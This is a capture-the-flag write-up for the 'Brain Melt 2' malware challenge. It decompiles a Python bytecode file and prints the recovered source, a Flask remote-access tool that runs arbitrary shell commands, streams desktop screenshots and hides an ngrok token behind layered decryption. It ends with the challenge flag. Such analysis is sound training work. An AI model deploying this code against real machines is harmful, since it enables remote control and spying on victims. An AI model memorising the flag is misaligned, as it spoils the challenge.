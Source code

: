 ## Name: Brain Melt 2
#### Category: Malware
#### Difficulty: Medium
#### Description: We'll skip Pyinstxtractor this time so it should be easy right? Note, the archive password is infected and the flag format varies slightly from the hexidecimal and length format. 

## Procedure
run ```file brain-melt-2.pyc``` command<br>

output ```brain-melt-2.pyc: Byte-compiled Python module for CPython 3.8, timestamp-based, .py timestamp: Tue May 21 21:08:49 2024 UTC, .py size: 4963 bytes```<br>

For pyc file we need to recover the python code, i always use pycdc tool for it, you can download pycdc from ```https://github.com/zrax/pycdc```, then just run ```./pycdc ~/brain-melt-2.pyc > brain.py```.<br>

### Brain-melt-2.py content
1) decrypt1, decrypt2, and decrypt3 functions are defined to decrypt various parts of a string to generate a key.<br>
2) deobfuscate function combines the results of the three decryption functions to form a key.<br>
3) ngrok_tunnel sets up an ngrok tunnel using this key.<br>
4) Desktop function takes a PIL image and prepares it to be sent as a JPEG file.<br>
5) execute function runs a shell command and flashes the output to the web interface.<br>

```
from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, StringField, validators, SubmitField
import subprocess
import pyautogui
import io
from PIL import Image
from Crypto.Cipher import Salsa20
from pyngrok import ngrok
import base64
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def decrypt1(encrypted_str):
    decoded_str = ''
    for i in range(0, len(encrypted_str), 2):
        encoded_chunk = encrypted_str[i:i + 2] + '=='
        decoded_str += base64.b64decode(encoded_chunk).decode('ascii')
    return decoded_str

def decrypt2(a1, a2):
    result = ''
    for character in a1:
        tempcharaddedr = 'temporary value'
        result += chr(((ord(character) - ord('a')) + a2) % 26 + ord('a'))
    return result

def decrypt3(s1, key):
    msg_nonce = s1[:8]
    ciphertext = s1[8:]
    cipher = Salsa20.new(key=key.encode('utf-8'), nonce=msg_nonce)
    return cipher.decrypt(ciphertext).decode('utf-8')

def deobfuscate():
    part1 = decrypt1('ZgbAYQZwewMAOAZQOQYwYwNQYgMA')
    part2 = decrypt2('fwvcttjsfvrshwsg', 17)
    part3 = decrypt3(b'\x97p#2\x1abw\x0f\x9a\xd1Z\x04b\x93\xa1h8]\xab\xa3\x9e7\xc9\xe8\x9b', '25dbd4f362f7d0e64b24ab231728a1fc')
    key = part1 + part2 + part3
    return key

def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    #http_tunnel = ngrok.connect(5000)
    print(f" * Tunnel URL: {deobfuscate()}")

def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', quality=70)
    img_io.seek(0)
    return send_file(img_io, mimetype='image/jpeg')

def execute(cmd):
    try:
        result = subprocess.run(cmd, shell=True, capture_output=True, text=True, check=True)
        flash(result.stdout)
        flash(result.stderr)
    except subprocess.CalledProcessError as e:
        flash(f"Error: {e}")

class CommandForm(Form):
    command = StringField('Command:', [validators.DataRequired()])
    submit = SubmitField('Submit')

@app.route('/', methods=['GET', 'POST'])
def display():
    form = CommandForm(request.form)
    if request.method == 'POST' and form.validate():
        command = form.command.data
        execute(command)
    return render_template_string('''<!doctype html>
        <html>
        <head>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
        </head>
        <body>
            <div class="container">
                <h1>Command Executor</h1>
                <form method="post">
                    <div class="form-group">
                        <label for="command">Command:</label>
                        <input type="text" class="form-control" id="command" name="command">
                    </div>
                    <button type="submit" class="btn btn-success">Submit</button>
                </form>
                {% for message in get_flashed_messages() %}
                <div class="alert alert-info">{{ message }}</div>
                {% endfor %}
                <img src="/images/desktop.jpg" id="img" width="100%" style="height: 100vh;">
            </div>
            <script type="text/javascript">
                window.onload = function() {
                    var image = document.getElementById("img");
                    function updateImage() {
                        image.src = image.src.split("?")[0] + "?" + new Date().getTime();
                    }
                    setInterval(updateImage, 1000);
                }
            </script>
        </body>
        </html>''', form=form)

@app.route('/images/desktop.jpg')
def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

if __name__ == '__main__':
    glob_key = '24a0b299984ee8da7aae14b7163e2e63'
    ngrok_tunnel()
    #app.run(host='0.0.0.0', debug=False)

```
<br>

i have edited the code just to call deobfuscate function and decrypt our flag.

<img width="874" alt="Screenshot 2024-05-26 at 00 17 23" src="https://github.com/sp34rh34d/CTF-writeups/assets/94752464/377ba6f8-cd8d-4a9a-8dbd-0cf37f348ac1">
<br>

flag ```flag{08e9cc5b0wnmtkkajwmijynjx3a415bd9a8024930}```
